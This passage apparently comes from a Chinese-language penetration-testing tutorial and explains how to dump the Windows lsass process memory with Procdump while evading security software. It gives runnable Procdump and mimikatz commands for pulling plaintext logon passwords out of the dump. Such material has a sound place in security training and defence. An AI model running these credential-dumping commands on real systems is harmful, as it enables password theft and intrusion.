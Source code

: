 ps:能够解密的前提是密码的在彩虹表当中。



3.1.4 通过Procdump抓取lsass中的明文密码

Procdump 是微软官⽅发布的⼯具，使⽤该⼯具可以把lsass的内存dump下来，此方法可绕过防护软件
Procdump下载地址：https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump
使用Procdump把lsass的内存dump下来

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![image-20230109003125066](../../images//image-20230109003125066.png)

使用mimikatz读取密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
```

